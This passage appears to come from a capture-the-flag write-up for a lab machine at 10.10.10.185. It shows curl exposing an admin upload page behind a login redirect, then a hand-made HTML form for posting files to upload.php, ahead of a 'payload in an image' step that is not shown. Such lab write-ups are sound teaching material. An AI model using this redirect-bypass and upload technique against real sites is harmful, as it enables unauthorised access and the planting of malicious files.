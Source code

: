 ```
< Pragma: no-cache
< Location: login.php
< Content-Length: 2957
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE HTML>
<SNIP>
        <h1>Welcome Admin!</h1>
        <div class="frame">
            <div class="center">
                <div class="bar"></div>
                <div class="title">Select Image to Upload</div>
                <form action="" method="POST" enctype="multipart/form-data">
                    <div class="dropzone">
                        <div class="content">
                            <img src="https://100dayscss.com/codepen/upload.svg" class="upload">
                            <span class="filename"></span>
                            <input type="file" class="input" name="image">
                        </div>
                    </div>
                    <input class="upload-btn" type="submit" value="Upload Image" name="submit">
                </form>
            </div>
        </div>
    </section>

```

`curl` does not follow redirects by default. This behaviour exposes the contents of `upload.php`.

With the information gleaned from the page, we can attempt to generate an upload request.

## Uploading A Payload In An Image

Instead of creating the request from scratch using Burp or python requests, here we create a stripped down version of the upload form, and let the browser do the work for us.

```
<form action="http://10.10.10.185/upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="image">
    <input type="submit" value="Upload Image" name="submit">
</form>
```

The form fields and attributes correspond to the exposed `upload.php`, so it should be able to upload files to the server.

This is how our upload form looks like.

![upload form](./uploadform.jpg)

